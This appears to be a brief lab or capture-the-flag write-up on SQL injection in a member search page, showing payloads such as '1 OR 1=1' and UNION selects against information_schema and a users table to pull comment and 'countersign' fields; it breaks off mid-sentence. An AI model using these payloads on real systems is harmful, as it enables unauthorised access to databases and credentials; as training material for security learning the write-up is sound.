


## SQL Injection

Here we can search for member by ID.

Using a quick ```1 OR 1 = 1``` show us all the image url and title. That confirme SQL inujection is possible.   

To go futher, we gonna look for the tablename of the db's table.  
To do so we are gonna use basic SQL input using UNION to get all table_name and column : ```1 or 1 = 1 UNION select table_name, column_name FROM information_schema.columns```



We see here that the image are store in ```users```

that have 8 columns : 
```
- user_id
- first_name
- last_name
- town
- country
- planet 
- commentaire
- countersign
``` 

So now we are looking in the comment section to look throw interessing information : 
``` 1 or 1=1 UNION SELECT Commentaire, countersign FROM users```

to get 

